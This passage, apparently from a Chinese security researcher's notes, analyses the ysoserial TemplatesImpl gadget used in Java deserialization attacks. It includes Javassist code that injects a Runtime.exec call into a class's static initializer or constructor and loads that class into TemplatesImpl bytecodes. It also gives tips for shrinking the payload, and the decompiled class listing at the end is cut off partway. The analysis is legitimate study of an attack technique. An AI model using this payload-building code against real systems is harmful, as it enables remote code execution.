 总结来说，_class中的类有这几个特点，父类是AbstractTranslet，攻击代码写入到了静态代码块中,这样在类的newInstance过程中就直接执行了静态代码块中的代码，导致了命令执行

java中类实例化过程会首先执行静态代码块，然后执行构造代码块，然后默认执行类的无参构造方法，所以把恶意代码插入到无参构造函数中也是可以的，如下

```
String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
CtConstructor ctConstructor = new CtConstructor(new CtClass[] {}, clazz);
ctConstructor.setBody(string);
clazz.addConstructor(ctConstructor);
```

#### 一些小问题

1. yso向_bytecodes插入恶意代码的时候，不仅插入了classBytes，而且一起插入了`ClassFiles.classAsBytes(Foo.class)`在实际测试中，不包含`ClassFiles.classAsBytes(Foo.class)`这里Foo是一个空类，一样也是可以触发漏洞的，可以debug一下跟下漏洞执行过程就是newTransform那里
2. yso在结尾时设置了_tfactory字段`Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());`实际测试中发现不设置这个字段也是没有影响的
3. StubTransletPayload类，其实StubTransletPayload只需要表面继承自AbstractTranslet类即可，不添加两个transform方法，也不实现Serializable接口，同样也是可以触发漏洞的，可以通过javassist直接创建类，然后设置父类，加入恶意代码的方式完成

    可以对生成class精简一下
    
    ```
    private static Object CreateTemplate() throws IllegalAccessException, InstantiationException, NotFoundException, CannotCompileException, IOException, NoSuchFieldException {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass clazz = classPool.makeClass(String.valueOf(System.nanoTime()));
        String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
        clazz.makeClassInitializer().insertAfter(string);
    
        CtClass superC = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);
        final byte[] classBytes = clazz.toBytecode();
        Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bcField.setAccessible(true);
        bcField.set(templates, new byte[][] {classBytes});
        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaaa");
        clazz.writeFile();
        return templates;
   }
    ```

    yso生成的class如下,对应的payload有3,154 字节
    

    ```
    //
    // Source code recreated from a .class file by IntelliJ IDEA
    // (powered by Fernflower decompiler)
    //
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    import java.io.Serializable;
    